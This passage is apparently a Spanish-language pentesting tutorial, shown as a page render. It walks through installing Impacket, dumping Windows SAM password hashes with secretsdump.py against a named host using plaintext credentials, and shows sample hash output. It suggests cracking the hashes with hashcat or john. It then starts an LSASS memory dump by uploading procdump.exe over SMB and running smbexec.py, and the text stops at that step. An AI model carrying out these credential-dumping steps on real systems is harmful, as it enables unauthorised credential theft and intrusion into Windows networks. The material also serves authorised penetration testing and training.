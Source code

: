 ```bash
sudo apt update
sudo apt install impacket-scripts -y
```

> O instalar desde el repositorio:

```bash
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
pip install .
```

---

#### 🚀 Ejemplo de uso: Obtener hashes de SAM

```bash
secretsdump.py gustavo:MiContraseña123@192.168.1.100
```

📌 Resultado típico:

```
[*] Dumping local SAM hashes (registry)
gustavo:500:aad3b435b51404eeaad3b435b51404ee:e52cac67419a9a2238f10713b629b565:::
admin:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
```

🧠 Estos hashes los puedes crackear con **hashcat** o **john**.

---

### ✅ Parte 2: Volcado de LSASS (memoria) desde Linux

#### 🧪 Escenario:

Ya tienes acceso remoto al Windows (por shell o SMB), ahora quieres el contenido de **LSASS.exe** (contraseñas en memoria).

#### 🔧 Opción 1: Usando `smbexec.py` + `procdump.exe`

##### 📥 Paso 1: Sube `procdump.exe` desde Kali al host Windows

```bash
smbclient //192.168.1.100/C$ -U gustavo
put procdump.exe
```

---

##### 🧨 Paso 2: Ejecuta `procdump` remotamente para volcar LSASS

```bash
smbexec.py gustavo:MiContraseña123@192.168.1.100
```
